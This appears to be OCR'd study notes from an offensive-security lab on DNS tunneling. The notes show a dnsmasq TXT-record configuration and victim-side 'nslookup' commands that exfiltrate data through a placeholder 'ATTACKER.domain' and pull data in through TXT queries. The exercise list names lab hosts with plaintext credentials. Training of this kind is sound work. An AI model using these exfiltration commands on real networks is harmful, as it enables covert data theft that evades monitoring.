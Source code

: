 ```bash

  # Define the ZONE
  auth-zone=feline.corp
  auth-server=feline.corp

  # TXT record
  txt-record=www.feline.corp,here's is data chunk to be sent to network!
  txt-record=www.feline.corp,here's another data junk.

sudo dnsmasq -C dnsmasq_txt.conf -d
```

Victim

```bash
# get configured DNS
resolvectl status

  DNS Servers: ...

# exfiltrate small data chunks after flushhing DNS cache
resolvectl flush-caches
nslookup exfiltrated-data.ATTACKER.domain [DNS-IP]

# infiltrate small data chunks
nslookup -type=txt www.feline.corp [DNS-IP]

www.feline.corp text = "here's is data chunk to be sent to network!"
www.feline.corp text = "here's another data junk"
```

---

exercise

192.168.195.64

Tunneling Through Deep Packet Inspection - DNS Tunneling with dnscat2 - MULTISERVER03 OS Credentials:

No credentials were provided for this machine

192.168.195.7

Tunneling Through Deep Packet Inspection - DNS Tunneling with dnscat2 - FELINEAUTHORITY OS Credentials:

kali / 7he_C4t_c0ntro11er

10.4.195.215

Tunneling Through Deep Packet Inspection - DNS Tunneling with dnscat2 - PGDATABASE01 OS Credentials:

database_admin / sqlpass123

172.16.195.217
